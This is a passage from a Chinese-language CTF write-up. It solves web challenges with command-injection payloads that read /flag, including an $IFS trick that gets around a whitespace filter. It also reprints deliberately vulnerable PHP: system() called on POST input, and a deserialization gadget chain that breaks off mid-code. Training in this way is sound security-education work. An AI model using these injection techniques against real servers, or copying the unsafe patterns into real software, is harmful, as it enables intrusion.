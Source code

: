 payload：cmd=echo `ls /` > 1.txt，把`ls /`命令的结果写到1.txt里，访问1.txt，看到`ls /`的结果，可以知道flag在根目录下

payload：cmd=cat /flag > 1.txt，把flag写到1.txt里，访问1.txt，看到flag

## [Week2] RCEisamazingwithspace

考点：`shell命令，空格绕过`

```php
<?php
highlight_file(__FILE__);
$cmd = $_POST['cmd'];
// 过滤空格
if (preg_match('/\s/', $cmd)) {
    echo 'Space not allowed in command';
    exit;
}
system($cmd);
```

过滤了空格，在shell命令行中，可以使用`$IFS`,`${IFS}`,`$IFS$9`

payload：`cmd=tac$IFS/flag`

## [Week2] ez_ser

考点：`php反序列化`

看到题目源码，想想链子怎么走

::: details
```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class re{
    public $chu0;
    public function __toString(){
        if(!isset($this->chu0)){
            return "I can not believes!";
        }
        $this->chu0->$nononono;
    }
}
class web {
    public $kw;
    public $dt;

    public function __wakeup() {
        echo "lalalla".$this->kw;
    }

    public function __destruct() {
        echo "ALL Done!";
    }
}

class pwn {
    public $dusk;
    public $over;

    public function __get($name) {
        if($this->dusk != "gods"){
            echo "什么，你竟敢不认可?";
        }
        $this->over->getflag();
```
